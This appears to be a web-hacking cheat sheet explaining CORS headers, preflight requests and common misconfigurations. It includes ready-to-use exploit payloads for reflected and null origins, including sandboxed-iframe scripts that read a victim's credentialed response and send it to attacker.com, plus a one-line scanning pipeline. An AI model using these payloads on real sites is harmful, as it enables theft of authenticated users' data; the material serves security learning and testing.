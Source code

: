 # CORS - Misconfigurations & Bypass
Cross-Origin Resource Sharing (CORS) standard enables servers to define who can access their assets and which HTTP request methods are permitted from external sources.

A same-origin policy mandates that a server requesting a resource and the server hosting the resource share the same `protocol` (e.g., http://), `domain name` (e.g., internal-web.com), and `port` (e.g., 80). Under this policy, only web pages from the same domain and port are allowed access to the resources.

![cors](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/9eee5927-fdb6-4fe2-8182-d669453230d1)





## `Access-Control-Allow-Origin` Header
This header can allow multiple origins, a `null` value, or a wildcard `*`. However, no browser supports multiple origins, and the use of the wildcard `*` is subject to limitations. (The wildcard must be used alone, and its use alongside `Access-Control-Allow-Credentials: true` is not permitted.)
This header is issued by a server in response to a cross-domain resource request initiated by a website, with the browser automatically adding an `Origin` header.

## `Access-Control-Allow-Credentials` Header
By default, cross-origin requests are made without credentials like cookies or the Authorization header. Yet, a cross-domain server can allow the reading of the response when credentials are sent by setting the `Access-Control-Allow-Credentials` header to `true`.
If set to true, the browser will transmit credentials (cookies, authorization headers, or TLS client certificates).


```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
        console.log(xhr.responseText);
    }
}
xhr.open('GET', 'http://example.com/', true); 
xhr.withCredentials = true; 
xhr.send(null);
```

```javascript
fetch(url, {
  credentials: 'include'  
})
```

```javascript
const xhr = new XMLHttpRequest();
xhr.open('POST', 'https://bar.other/resources/post-here/');
xhr.setRequestHeader('X-PINGOTHER', 'pingpong');
xhr.setRequestHeader('Content-Type', 'application/xml');
xhr.onreadystatechange = handler;
xhr.send('<person><name>Arun</name></person>');
```


## CSRF Pre-flight request
When initiating a cross-domain request under specific conditions, such as using a non-standard HTTP method (anything other than `HEAD`, `GET`, `POST`), introducing new headers, or employing a special Content-Type header value, a pre-flight request may be required. This preliminary request, leveraging the 
`OPTIONS` method, serves to inform the server of the forthcoming cross-origin request's intentions, including the HTTP methods and headers it intends to use.

The Cross-Origin Resource Sharing (CORS) protocol mandates this pre-flight check to determine the feasibility of the requested cross-origin operation by verifying the allowed methods, headers, and the trustworthiness of the origin. For a detailed understanding of what conditions circumvent the need for a pre-flight request, refer to the comprehensive guide provided by [Mozilla Developer Network (MDN)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests).

It's crucial to note that the absence of a pre-flight request does not negate the requirement for the response to carry authorization headers. Without these headers, the browser is incapacitated in its ability to process the response from the cross-origin request.
Consider the following illustration of a pre-flight request aimed at employing the `PUT` method along with a custom header named Special-Request-Header:

```html
OPTIONS /info HTTP/1.1
Host: example2.com
...
Origin: https://example.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: Authorization
```

In response, the server might return headers indicating the accepted methods, the allowed origin, and other CORS policy details, as shown below:

```html
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Authorization
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

## Reflection of `Origin` in `Access-Control-Allow-Origin`
```javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://example.com/details',true);
   req.withCredentials = true;
   req.send();
   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```

## Exploiting the `null` Origin

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```


## Automate CORS
```bash
echo https://target.com | hakrawler | httpx -silent | CorsMe
```




## Tools
* [CorsMe](https://github.com/Shivangx01b/CorsMe)
* [hakrawler](https://github.com/hakluke/hakrawler)


























